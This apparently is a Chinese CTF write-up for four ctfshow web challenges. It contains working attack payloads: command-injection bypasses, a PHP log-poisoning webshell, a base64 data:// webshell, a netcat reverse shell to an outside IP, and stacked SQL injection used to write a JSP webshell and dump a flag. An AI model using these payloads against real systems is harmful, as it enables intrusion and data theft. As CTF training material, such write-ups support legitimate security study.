





+++
title = "ctfshow七夕杯"
slug = "ctfshow-qixi-cup"
description = "刷"
date = "2024-12-19T20:54:37"
lastmod = "2024-12-19T20:54:37"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["php", "Java"]
+++

## web签到

```html
<script>
			function help(){
				
				if(isSafe($("#cmd").val())){
				   $("#help").css("color","#69cf56");
				   $("#help").html("提交命令执行");
			   }else{
				   $("#help").css("color","#ec1616");
				   $("#help").html("命令字符过长");
			   }
			}
            function isSafe(cmd)
            {
               
                return cmd.length<=7;
            }
            function check(){
               if(isSafe($("#cmd").val())){
                   $("#help").css("color","#69cf56");
				   $("#help").html("提交命令执行");
				   return true;
			   }else{
                   $("#help").css("color","#ec1616");
				   $("#help").html("命令字符过长");
				   return false ;
			   }
				
            }
        </script>
```

源码里面是这个，我是直接绕过打的，这里不会直接给回显，所以写文件

```
ls />a
nl /*>a
```

下载文件的话是在接口，不要迷路了

```
https://c300c54a-3f54-4129-b911-3b4f5b29b5f1.challenge.ctf.show/api/a
```

但是好像非预期是打临时文件

```python
import requests
url="http://c300c54a-3f54-4129-b911-3b4f5b29b5f1.challenge.ctf.show/"

files={'file':'#!/bin/sh\ncat /f*>/var/www/html/test.txt'}
data={'cmd':'. /t*/*'}

r1=requests.post(url+"api/tools.php",files=files,data=data)
if "t*" in r1.text:
    print(r1.text)
r2=requests.get(url+"test.txt")
if r2.status_code==200:
    print("yes")
    print(r2.text)
```

## easy_calc

```php
<?php
if(check($code)){
    eval('$result='."$code".";");
    echo($result);    
}

function check(&$code){
    $num1=$_POST['num1'];
    $symbol=$_POST['symbol'];
    $num2=$_POST['num2'];
    if(!isset($num1) || !isset($num2) || !isset($symbol) ){     
        return false;
    }
    if(preg_match("/!|@|#|\\$|\%|\^|\&|\(|_|=|{|'|<|>|\?|\?|\||`|~|\[/", $num1.$num2.$symbol)){
        return false;
    }
    if(preg_match("/^[\+\-\*\/]$/", $symbol)){
        $code = "$num1$symbol$num2";
        return true;
    }
    return false;
}
```

过滤的真的不死，协议可以绕过日志包含也可以，在eval里面提前闭合就可以了

```http
POST /?1=echo%20`cat%20/secret`; HTTP/1.1
Host: 8326061a-9e53-4a32-b936-25c77e885ddb.challenge.ctf.show
Connection: keep-alive
Content-Length: 76
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://8326061a-9e53-4a32-b936-25c77e885ddb.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36;<?php eval($_GET[1]);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://8326061a-9e53-4a32-b936-25c77e885ddb.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=AlLJBGTvGfSx92Z2TE133nsC62L7ZvjHOaMdV6S5Ifc-1734007807-1.2.1.1-ed02RSpjUZJ.8wpVSw_bIQz63q.QPpBfjaeLr9UFebRdQn5K_pmp5RsNDNplRaoZ_7JJ2AC3WmVqUy__CtJPVKRmVhqj4cJ68UVKAUpxeeGs0aWMg49qQzPlywdx7ds.aX9a0osPl_qYm8smseceZmGH21Hiv4lMUmEN8elAGnKbYBXsRTvTc.ojeUDWAFXqq3.zWrK.keENkxpeYJOyvuSYm5mtdIX7ZmaYnVnH8WgesxHgiDfjdD88DrdCPxjmE26q6UYRfoPynd1HbNlMjlQ94qWtLp5zIvRKo8ZJd3y9Fv7j9fa4HHZPB90CrOyllJwZGzWb0DfSSSvIRAkSDQXgkHoIjIA.KQpfAWgYRdSUMLXN9mIrjR0zFOCaEKuD

num1=-1%3Binclude+%22%2Fvar%2Flog%2Fnginx%2Faccess.log%22%3B&num2=1&symbol=-
```

当然data也是可以的，写马啊啥的都行

```
-1;include "data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==";
```

## easy_cmd

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

$cmd=$_POST['cmd'];

if(preg_match("/^\b(ping|ls|nc|ifconfig)\b/",$cmd)){
        exec(escapeshellcmd($cmd));
}
?>
```

直接弹shell就可以了，参数这个问题嘛，是版本问题，挨着试就行

```
cmd=nc 156.238.233.9 9999 -e /bin/sh
```

## easy_sql

拿到源码先放到IDEA里面慢慢看，我进来就看到了查询语句和waf





首先顺序是看路由然后再看关键代码所以我这么看纯是看到死耗子了，因为这里代码比较少，如果是框架就jj

但是我仔细一看这里，好像确实是能绕过，但是没有回显啊，他的回显只有

```java
message = "您的QQ账号密码已经泄露，请立即修改密码";
```

看看插入日志的函数好像可以利用诶



其中查看这个配置文件，`config.properties`

```properties
url=jdbc:mysql://127.0.0.1:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC
db_username=root
db_password=root
```

`allowMultiQueries=true`可以一次性执行多次sql语句，也就是堆叠注入，接着我们跟进到`LogUtil.save`，



但是没有什么用，继续跟进`FileUtil.SaveFileAs`，



这里`FileWriter`的第二个参数是false所以是覆盖文件内容，而参数是我们刚才的username和password，username为内容，password为路径，那么我们的目的就是先让其异常，然后再写入恶意文件即可，插入语句报错是

1.修改app_query_log表，让username为主键，重复插入时会报异常。

2.删除app_query_log表，找不到要插入的表，报异常

3.锁表

这里锁表会比较简单点

```http
POST /app/check HTTP/1.1
Host: edb22801-1d6f-4cd0-b7ea-8b0e5e2859ee.challenge.ctf.show
Cookie: cf_clearance=AlLJBGTvGfSx92Z2TE133nsC62L7ZvjHOaMdV6S5Ifc-1734007807-1.2.1.1-ed02RSpjUZJ.8wpVSw_bIQz63q.QPpBfjaeLr9UFebRdQn5K_pmp5RsNDNplRaoZ_7JJ2AC3WmVqUy__CtJPVKRmVhqj4cJ68UVKAUpxeeGs0aWMg49qQzPlywdx7ds.aX9a0osPl_qYm8smseceZmGH21Hiv4lMUmEN8elAGnKbYBXsRTvTc.ojeUDWAFXqq3.zWrK.keENkxpeYJOyvuSYm5mtdIX7ZmaYnVnH8WgesxHgiDfjdD88DrdCPxjmE26q6UYRfoPynd1HbNlMjlQ94qWtLp5zIvRKo8ZJd3y9Fv7j9fa4HHZPB90CrOyllJwZGzWb0DfSSSvIRAkSDQXgkHoIjIA.KQpfAWgYRdSUMLXN9mIrjR0zFOCaEKuD; JSESSIONID=2CFCCAEF54F3544650D8B04A3D937061
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://edb22801-1d6f-4cd0-b7ea-8b0e5e2859ee.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://edb22801-1d6f-4cd0-b7ea-8b0e5e2859ee.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

username=a\&password=;flush+tables+with+read+lock;%23
```

然后再写一个恶意文件

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/sql" prefix="sql"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c"%>
<%@ page isELIgnored="false" %>
<sql:setDataSource var="test" driver="${param.driver}"
        url="${param.url}" user="root" password="root" />
   <sql:query dataSource="${test}" var="result">
        ${param.sql}
    </sql:query>

<table border="1" width="100%">
        <tr>
            <th>ctfshow</th>
        </tr>
        <c:forEach var="row" items="${result.rows}">
            <tr>
                <td><c:out value="${row.t}" /></td>
            </tr>
        </c:forEach>
    </table>
```

数据包为

```http
POST /app/check HTTP/1.1
Host: edb22801-1d6f-4cd0-b7ea-8b0e5e2859ee.challenge.ctf.show
Cookie: cf_clearance=AlLJBGTvGfSx92Z2TE133nsC62L7ZvjHOaMdV6S5Ifc-1734007807-1.2.1.1-ed02RSpjUZJ.8wpVSw_bIQz63q.QPpBfjaeLr9UFebRdQn5K_pmp5RsNDNplRaoZ_7JJ2AC3WmVqUy__CtJPVKRmVhqj4cJ68UVKAUpxeeGs0aWMg49qQzPlywdx7ds.aX9a0osPl_qYm8smseceZmGH21Hiv4lMUmEN8elAGnKbYBXsRTvTc.ojeUDWAFXqq3.zWrK.keENkxpeYJOyvuSYm5mtdIX7ZmaYnVnH8WgesxHgiDfjdD88DrdCPxjmE26q6UYRfoPynd1HbNlMjlQ94qWtLp5zIvRKo8ZJd3y9Fv7j9fa4HHZPB90CrOyllJwZGzWb0DfSSSvIRAkSDQXgkHoIjIA.KQpfAWgYRdSUMLXN9mIrjR0zFOCaEKuD; JSESSIONID=2CFCCAEF54F3544650D8B04A3D937061
Content-Length: 1405
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://edb22801-1d6f-4cd0-b7ea-8b0e5e2859ee.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://edb22801-1d6f-4cd0-b7ea-8b0e5e2859ee.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

username=%3C%25%40%20page%20language%3D%22java%22%20contentType%3D%22text%2Fhtml%3B%20charset%3DUTF-8%22%0A%20%20%20%20pageEncoding%3D%22UTF-8%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fsql%22%20prefix%3D%22sql%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fcore%22%20prefix%3D%22c%22%25%3E%0A%3C%25%40%20page%20isELIgnored%3D%22false%22%20%25%3E%0A%3Csql%3AsetDataSource%20var%3D%22test%22%20driver%3D%22%24%7Bparam.driver%7D%22%0A%20%20%20%20%20%20%20%20url%3D%22%24%7Bparam.url%7D%22%20user%3D%22root%22%20password%3D%22root%22%20%2F%3E%0A%20%20%20%3Csql%3Aquery%20dataSource%3D%22%24%7Btest%7D%22%20var%3D%22result%22%3E%0A%20%20%20%20%20%20%20%20%24%7Bparam.sql%7D%0A%20%20%20%20%3C%2Fsql%3Aquery%3E%0A%0A%0A%0A%3Ctable%20border%3D%221%22%20width%3D%22100%25%22%3E%0A%20%20%20%20%20%20%20%20%3Ctr%3E%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3Et%3C%2Fth%3E%0A%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3Cc%3AforEach%20var%3D%22row%22%20items%3D%22%24%7Bresult.rows%7D%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Ctr%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E%3Cc%3Aout%20value%3D%22%24%7Brow.t%7D%22%20%2F%3E%3C%2Ftd%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3C%2Fc%3AforEach%3E%0A%20%20%20%20%3C%2Ftable%3E&password=../webapps/ROOT/shell.jsp
```

```
https://edb22801-1d6f-4cd0-b7ea-8b0e5e2859ee.challenge.ctf.show/shell.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select group_concat(table_name)t from information_schema.tables where table_schema=database();

https://edb22801-1d6f-4cd0-b7ea-8b0e5e2859ee.challenge.ctf.show/shell.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select group_concat(column_name)t from information_schema.columns where table_name="app_flag_xxoo_non0";

https://edb22801-1d6f-4cd0-b7ea-8b0e5e2859ee.challenge.ctf.show/shell.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select group_concat(f1ag)t from app_flag_xxoo_non0;
```

